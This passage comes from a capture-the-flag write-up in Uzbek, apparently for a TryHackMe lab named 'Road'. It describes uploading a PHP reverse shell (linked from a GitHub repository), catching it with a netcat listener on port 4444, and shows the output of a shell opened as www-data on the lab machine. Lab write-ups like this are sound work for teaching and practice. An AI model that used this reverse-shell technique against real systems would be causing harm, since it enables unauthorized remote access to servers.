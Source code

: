 ![rasm](https://github.com/akhatkulov/Write-Ups/blob/main/TryHackme/Pictures/road7.jpg?raw=true)

Reverse shell yuklashga urinib ko'ramiz.

reverse shell tayyorlash:

```
https://github.com/akhatkulov/HackBox/blob/main/reverse-shell.php
```

reverse shellni tutish:

```
nc -nvlp 4444
```

Natija:

```
  nc -nvlp 4444
Connection from 10.10.174.160:49808
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:27:50 up  1:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
